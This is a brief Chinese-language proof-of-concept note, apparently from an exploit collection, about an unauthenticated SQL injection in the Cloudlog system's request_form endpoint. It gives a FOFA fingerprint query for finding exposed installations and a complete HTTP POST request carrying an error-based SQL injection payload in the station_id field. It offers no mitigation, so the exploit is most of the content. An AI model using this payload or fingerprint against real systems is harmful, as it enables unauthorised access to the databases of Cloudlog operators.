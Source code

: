 # Cloudlog系统request_form存在SQL注入漏洞

Cloudlog系统接口request_form未授权SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```javascript
icon_hash="-460032467"
```

## poc

```javascript
POST /index.php/oqrs/request_form HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

station_id=1 AND (SELECT 2469 FROM(SELECT COUNT(*),CONCAT(0x7162716b71,(SELECT (ELT(2469=2469,1))),0x7162716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

![image-20241219150127938](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191501995.png)